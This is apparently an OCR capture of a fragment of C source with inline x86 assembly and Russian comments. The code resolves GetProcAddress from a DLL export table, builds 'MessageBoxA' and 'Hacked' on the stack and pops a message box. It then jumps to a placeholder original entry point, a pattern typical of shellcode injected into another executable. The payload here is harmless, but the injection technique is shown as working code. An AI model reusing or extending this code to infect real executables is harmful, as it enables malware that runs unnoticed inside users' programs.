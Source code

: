 ```c
            add   edx, ebx; //Таблица порядковых номеров функций
            mov   cx, [edx + 2 * ecx]; //порядковый номер функции
            mov   edx, [edi + 0x1c]; //Таблица относительных адресов смещений
            add   edx, ebx; //Таблица адресов
            mov   eax, [edx + 4 * ecx]; //смещение порядкового номера
            add   eax, ebx;  //VMA функции
            // теперь EAX содержит адрес GetProcAddress
            mov esi, eax
 
            sub esp, 12
            mov ebx, esp
            mov byte ptr[ebx], 0x4d //M
            mov byte ptr[ebx + 1], 0x65 //e
            mov byte ptr[ebx + 2], 0x73 //s
            mov byte ptr[ebx + 3], 0x73 //s
            mov byte ptr[ebx + 4], 0x61 //a
            mov byte ptr[ebx + 5], 0x67 //g
            mov byte ptr[ebx + 6], 0x65 //e
            mov byte ptr[ebx + 7], 0x42 //B
            mov byte ptr[ebx + 8], 0x6f //o
            mov byte ptr[ebx + 9], 0x78 //x
            mov byte ptr[ebx + 10], 0x41 //A
            mov byte ptr[ebx + 11], 0x0
 
            /*
                Достаем значение, сохраненное после возврата LoadLibraryA
                Вызов GetProcAddress выглядит так:
                esi(saved eax{address of user32.dll module}, ebx {the string "MessageBoxA"})
            */
 
            mov eax, [esp + 12]
            push ebx; //MessageBoxA
            push eax; //базовый адрес user32.dll, который получили с помощью LoadLibraryA
            call esi; //адрес GetProcAddress :))
            add esp, 12
 
        sub esp, 8
        mov ebx,esp
        mov byte ptr[ebx], 72; //H
        mov byte ptr[ebx + 1], 97; //a
        mov byte ptr[ebx + 2], 99; //c
        mov byte ptr[ebx + 3], 107; //k
        mov byte ptr[ebx + 4], 101; //e
        mov byte ptr[ebx + 5], 100; //d
        mov byte ptr[ebx + 6], 0
 
        push 0
        push 0
        push ebx
        push 0
        call eax
        add esp, 8
 
        mov eax, 0xdeadbeef ; //Оригинальная точка входа
        jmp eax
    }
 
    __asm{
        over:
        mov eax, loc2
        mov [end],eax
        loc2:
    }
```